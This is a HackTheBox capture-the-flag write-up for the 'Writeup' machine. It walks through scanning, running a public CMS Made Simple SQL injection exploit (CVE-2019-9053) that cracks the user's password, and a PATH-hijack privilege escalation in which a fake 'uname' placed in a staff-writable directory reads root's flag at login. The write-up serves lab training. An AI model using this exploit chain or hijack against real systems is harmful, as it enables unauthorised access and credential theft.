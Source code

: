 ```yaml
---
Category:
  - B2R
Difficulty: Easy
Platform: HackTheBox
status: 3. Complete
tags:
  - CMS-Made-Simple
  - CVE-2019-9053
  - SQL-Injection
  - relative-paths-hijacking-privesc
  - Linux
---
```

### Improved ability

- CVE Research
- Source code review
- PATH based privilege escalation

### Used tools

- nmap
- searchsploit
- pspy64

---

## Introduction & Foothold:

Let’s start with a common full **nmap** scan on the box:

```bash
$ nmap -A 10.10.10.138
```

![1.png](../../zzz_res/attachments/1.png)

The only available ports are the **port 22** (with *OpenSSH 7.4p1*) and the **port 80**, running *Apache httpd 2.4.25*. Because of this version of OpenSSH doesn’t have known vulnerability, let’s analyze the root and `/writeup/` folder (contained into the *robots.txt*) with a web browser.

Once inside the root, we will prompted with an old-school floppy-disk background and a tips saying that because the site was attacked, it has been implemented a **DoS protection** that potentially can block us from performing brute-force enumeration.

![2.png](../../zzz_res/attachments/2.png)

Let’s move analyze the `/writeup/` folder:

![3.png](../../zzz_res/attachments/3.png)

Here we can find some old writeups, but nothing very useful. However, looking at the **source code**, we are able to find the first important information: the **CMS type**.

![4.png](../../zzz_res/attachments/4.png)

Now that we know our target use **CMS Made Simple**, we can search online for public exploit. Suddenly, though the usage of **searchsploit** we found the right script to compromise our target

```bash
$ searchsploit 'cms made simple'
--------------------------------------------------------------------------------------------------------------------
Exploit Title                                                                       | Path 
---------------------------------------------------------------------------------------------------------------------
CMS Made Simple (CMSMS) Showtime2 - File Upload Remote Code Execution (Metasploit)  | exploits/php/remote/46627.rb
CMS Made Simple 0.10 - 'Lang.php' Remote File Inclusion                             | exploits/php/webapps/26217.html
CMS Made Simple 0.10 - 'index.php' Cross-Site Scripting                             | exploits/php/webapps/26298.txt
CMS Made Simple 1.0.2 - 'SearchInput' Cross-Site Scripting                          | exploits/php/webapps/29272.txt
...
CMS Made Simple < 2.2.10 - SQL Injection                                            | exploits/php/webapps/46635.py
```

## Gaining access as jkr

Analysing every record, notice how the **SQL injection exploit** (*46635*) is valid for every version under the 2.2.10. Download and execute the script!

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/46635)

```bash
$ searchsploi -m 46635
$ python 46635.py -u http://10.10.10.138/writeup/ --crack -w /usr/share/wordlist/rockyou.txt
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
```

Good! We have the user password. Now we can login into the box as **jkr** and proceeds to the privilege escalation phase.

```
$ ssh jkr@10.10.10.138
$ cat /home/jkr/user.txt
d4e493fd4068af...
```

## Privilege Escalation

After looking for a long time for passwords, misconfiguration or other forms of escalation, I decided to take a closer look to every process running on the machine, so I downloaded **pspy** and launched it.

![5.png](../../zzz_res/attachments/5.png)

After a while, mine attention were caught by these few lines:

```bash
2019/10/11 10:35:58 CMD: UID=0    PID=2279   | sshd: [accepted]
2019/10/11 10:35:58 CMD: UID=102  PID=2280   | sshd: [net]   
2019/10/11 10:36:00 CMD: UID=0    PID=2281   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new     
2019/10/11 10:36:00 CMD: UID=0    PID=2282   | run-parts --lsbsysinit /etc/update-motd.d
2019/10/11 10:36:00 CMD: UID=0    PID=2283   | /bin/sh /etc/update-motd.d/10-uname
2019/10/11 10:36:00 CMD: UID=0    PID=2284   | /bin/sh /etc/update-motd.d/10-uname
2019/10/11 10:36:00 CMD: UID=0    PID=2285   | sshd: jkr [priv]
```

It seems that every time someone logs in, the `/etc/update-motd.d/10-uname` script is executed. 

The contents of the scripts are the following:

```bash
jkr@writeup:/etc/update-motd.d$ cat 10-uname
#!/bin/sh
uname -rnsom
jkr@writeup:/etc/update-motd.d$ uname -rnsom
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux
```

It is clear the script execute a `uname` without using any kind of path, searching the right binary into the **$PATH** variable.

In case we are able to write inside one of the directories contained in `$PATH` and before the script identifies the original uname binary, *we can run arbitrary code as root and execute our escalation* (that because the `10-uanme` process run with *UID=0*, so it runs as root)

`$PATH` contains the following directories:

```bash
jkr@writeup:/home/jkr$ ls -l -d /usr/local/sbin /usr/local/bin /usr/sbin /usr/bin /sbin /bin
drwxr-xr-x 2 root root   4096 Apr 19 04:24 /bin
drwxr-xr-x 2 root root   4096 Apr 19 04:14 /sbin
drwxr-xr-x 2 root root  20480 Apr 24 13:13 /usr/bin
drwx-wsr-x 2 root staff 20480 Jul 10 17:27 /usr/local/bin
drwx-wsr-x 2 root staff 12288 Jul 10 17:23 /usr/local/sbin
drwxr-xr-x 2 root root   4096 Apr 19 07:31 /usr/sbin
```

two of which allow *staff* group users to write into them.

Because jkr is part of the staff group, we are able to create a custom script named *uname* that will be executed in place of the original script once someone logs in.

```bash
jkr@writeup:/etc/update-motd.d$ echo "cat /root/root.txt" > /usr/local/sbin/uname
jkr@writeup:/etc/update-motd.d$ chmod +x /usr/local/sbin/uname
jkr@writeup:/etc/update-motd.d$ exit
root@0xbro:~/Documents/CTF/HTB/Writeup# ssh jkr@10.10.10.138
jkr@10.10.10.138's password:
eeba47f60b48ef92...

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jul 10 17:35:19 2019 from 10.10.15.117
jkr@writeup:~$
```

Once this escalation has been found, it is possible get a reverse shell as root rather than performing other actions as superuser.

# Trophy

>[!quote]
>The only way of discovering the limits of the possible is to venture a little way past them into the impossible.
>
>\- Arthur C. Clarke

